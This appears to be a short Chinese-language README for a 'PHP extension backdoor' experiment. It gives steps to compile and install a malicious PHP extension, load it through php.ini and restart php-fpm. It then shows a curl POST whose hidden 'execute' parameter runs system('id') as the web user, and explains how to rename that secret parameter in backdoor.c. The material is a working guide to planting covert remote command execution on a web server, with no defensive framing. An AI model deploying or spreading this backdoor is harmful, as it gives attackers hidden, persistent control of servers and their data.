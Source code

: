 # php扩展后门小实验

> 环境 Ubuntu 16.04, PHP 5.6

**编译**

```shell
# phpize && ./configure && make && sudo make install
```

修改配置文件 `php.ini`, 增加 `extension=backdoor.so`

重启PHP服务 `srevice php-fpm restart`

----

**测试**

```shell
# curl http://localhost/index.php --data "execute=system('id');"
uid=1002(www) gid=1002(www) groups=1002(www)
```

----

**自定义POST参数**

修改文件 `backdoor.c`

```c
char* secret_string = "execute";
# char* secret_string = "POST参数";
```
